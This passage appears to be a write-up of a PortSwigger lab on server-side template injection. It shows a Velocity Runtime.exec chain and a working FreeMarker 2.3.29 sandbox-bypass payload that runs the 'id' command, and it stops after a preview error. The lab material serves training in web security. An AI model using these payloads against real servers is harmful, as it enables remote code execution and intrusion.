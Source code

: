 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5b3f8ce0-c871-4314-b5de-3fbc075cda05)

## Overview :

Constructing a custom exploit using an object chain

As described above, the first step is to identify objects and methods to which you have access. Some of the objects may immediately jump out as interesting. By combining your own knowledge and the information provided in the documentation, you should be able to put together a shortlist of objects that you want to investigate more thoroughly. 

For example, in the Java-based template engine Velocity, you have access to a ClassTool object called **$class**. Studying the documentation reveals that you can chain the **$class.inspect()** method and **$class.type** property to obtain references to arbitrary objects. In the past, this has been exploited to execute shell commands on the target system as follows:

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
## Solution :

As per the lab description we know the following,

- Freemarker template is used.
- sandbox environment. 

### Identifying the version of Freemarker -

Login as content-manager & click on any product. We have an option to edit template.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/94b3fe61-c9fc-4295-a04b-dc6abf058312)

We can find the version of Freemarker being used by using the following command.

```java
<#assign freemarkerVersion = .version>
FreeMarker version: ${freemarkerVersion}
```

On previewing it, we came to know that it is  `FreeMarker version: 2.3.29 `

### RCE -

Here is the following command to bypass sandbox environment in Freemarker template as mentioned in [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---sandbox-bypass). 

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
But when we enter this in the edit template field & click preview , it throws the following error.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f1e300e-9970-44dd-940f-ff2aeef8716a)

It seems that the article object is causing the error, so remove the entire template content & enter only the payload.
